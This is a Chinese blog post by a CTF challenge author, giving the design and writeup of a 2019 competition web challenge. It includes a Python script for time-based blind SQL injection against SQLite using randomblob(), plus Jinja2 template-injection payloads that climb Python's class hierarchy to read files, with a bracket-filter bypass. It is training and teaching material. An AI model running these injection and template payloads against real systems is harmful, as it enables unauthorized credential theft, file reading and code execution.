

## 前言
* 无力吐槽的信安国赛，段子乎喷了上届比赛有多坑，感觉这届也不差啊？
* 算了，我知道是我太菜。

---
* 本博客记录了一篇2019信安国赛复赛本队出题的一些经历。包括题目思路，搭建方法，以及writeup。
* 尽管我们没有最后参加复赛，但是也发现出题是一个很好的锻炼方式。


<!--more-->

## MORE

* 题目名称：不仅仅是个SQL
* 出题人：CC from nothing

### POINTS
1. 基于SQLITE数据库的盲注
2. 基于jinja2模板注入漏洞的任意代码执行漏洞

### WRITEUP

* 打开网站首先看到的是一个登陆界面


* 照例查看一下网站的robots.txt看一下有没有什么可以发现的。
* robots.txt中是网站登陆认证逻辑的源码，可以看出后算是使用python编写，数据库为sqlite。并对用户输入进行了过滤。


* 输入常用payload发现没有任何回显，所以这里需要盲注
* sqlite3数据库的盲注是采用randomblob()函数
    randomblob()函数生成指定长度的随机字符串。当这个长度足够大的时候就会让服务器产生明显的延迟。这样就可以判断语句的执行成功与否。
* 经过多次尝试发现后端过滤了小写的select，from等关键词。于是采用如图所示的方式注入
* 我们编写了如下脚本来注入获取密码

    ```
    def sqlpw(url):
    session=requests.Session()
    params={"password":"0"}
    password=""
    for i in range(32):
        for x in "0123456789abcdefghijklmnopqrstuvwsyz":
            try:
                username="admin'AND(SELECT(hex(substr(password,{},1)))FROM(users))=hex('{}')AND(randomblob(1000000000))--".format(i+1,x)
                params['username']=username
                # print(params)
                r=session.post(url,data=params,timeout=1)
                # print(r.status_code)
            except exceptions.Timeout:
                password=password+x
                logging.info(password)
                sleep(3)
                break
    return password
    ```
* 运行脚本之后我们就获取到了密码的md5值，利用网上很多的md5查询库便可以得到密码原文


* 使用用户名密码登陆成功之后出现如上的欢迎界面。检查网页源码发现flag位于根目录下
* 这里的鸟居图片既是另一个提示。jinja2项目的LOGO



* 从URL传入参数username入手写入测试payload验证漏洞存在


* 经过测试发现注入点过滤方括号，于是构成如图所示payload完成注入获得flag

## Jinja2模板注入漏洞
* Jinja2漏洞最早出现在py2的版本上。
* 漏洞原理基本就是传入的url中如果包含python脚本也是会被模板解析的。因为模板能够访问python内置变量以及变量方法。
* 注意python2和python3存在差别在类层结构上存在差别

```
__class__   返回调用参数类型
__base__    返回基类
__mro__     允许我们在当前Python环境下追溯继承树
__subclasses__()    返回子类
```


1. 获取基类
    
    首先通过str，dict，tuple，list等类型来获取python的基本类（因为python万物皆对象）你也可以通过一些其它jinja2已经导入的包来获取基类

    ```
    python3:
    ''.__class__.__base__
    [].__class__.__base__
    requests.__class__.__base__

    python2:
    ''.__class__.__mro__[2]
    [].__class__.__base__
    requets.__class__.__mro__[8]
    ```

    获取基类的方法可以在python命令行中输入尝试
    
    **如果题目对中括号做了限制，也可以通过__getitem__(2)函数绕过限制**

1. 读取文件

    **以下基类通过object代替**
    
    ```
    python2：
    object.__subclasses__()[40]('/etc/password
    ').read()
    //获取file类读文件
    ```

    python3中要复杂的多，首先是python3的类层结构和python2下相比会复杂的多。其次python3的类必须经过初始化等等操作才可以使用其内建函数

    ```
    python3:
    object.__subclasses__()[78].__init__.__globals__.__builtins__.open("./flag.txt",encoding="utf-8").read()
    ```

    python3中我们获取子类列表之后随便选择一个类，查看其__init__
    ```
    <slot wrapper '__init__' of 'object' objects>
    ```
    wrapper是指这些函数没有被重载。这是他们并不是function，并不具有___globals__属性。我们在多尝试几个子类就可以找到一个被__init__的类，比如。接下来就可以使用内置函数执行命令。

以上都只是最基础的操作，jinja2模板注入还有很多其他操作需要更多的尝试理解才可以完成。

## 后记

* 这次比赛真是一个很不愉快的体验。这个题目出题到写博客也隔了很久。所以有些细节在本博客中可能描述的很不清楚。（总之这篇博客很垃圾就是了）在图书馆办公室一边修理爬虫一边跑着爬虫利用闲暇之余写出来的博客真的质量不高令人堪忧。总之就这样吧，感谢阅读。


